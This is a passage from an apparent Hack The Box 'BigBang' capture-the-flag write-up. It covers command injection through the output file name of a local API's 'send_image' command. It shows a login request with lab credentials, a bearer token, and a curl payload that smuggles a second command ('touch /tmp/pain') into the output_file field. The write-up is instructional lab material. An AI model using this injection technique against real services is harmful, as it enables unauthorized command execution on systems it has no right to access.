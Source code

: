 ![Screenshot 2025-01-28 at 1.09.08 AM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-28_at_1.09.08_AM.png)

We observed that the function requires an input file and an output file, but we have control over the **output file**. The function creates a file based on the output file name we provide. This gives us an opportunity to attempt **command injection** by manipulating the output file name.

First thing was to get auth TOKEN 

```bash
curl -X POST http://127.0.0.1:9090/login -H "Content-Type: application/json" -d '{"username":"developer","password":"bigbang"}'
```

![Screenshot 2025-01-27 at 10.33.04 PM.png](/assets/Images/HTB_BigBang/Screenshot_2025-01-27_at_10.33.04_PM.png)

Trying for just executing file after many fail attempts 

before that make a file 

```bash
touch /tmp/foo
```

```bash
chmod +x /tmp/foo
```

Because the first argument which we will give is this foo then we will inject our second command with that and just to test we’ll make a pain file on /tmp

```bash
curl -X POST http://127.0.0.1:9090/command -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczNzk5NzQ1MCwianRpIjoiN2NmOTYzM2YtMGQzZS00NWMzLWJmM2UtNmM1NTY3MjA1ZDczIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczNzk5NzQ1MCwiY3NyZiI6IjZiMDIyN2FlLTk5YWEtNDkzMS04YjQ3LWQxMDE5OWIxZGZiMiIsImV4cCI6MTczODAwMTA1MH0.XEjpZ7dcUlUVZnKqPDjzZ3oGrLQbAorF31idJLF8TfE" -d '{"command":"send_image","output_file":"foo \ntouch /tmp/pain"}'
```
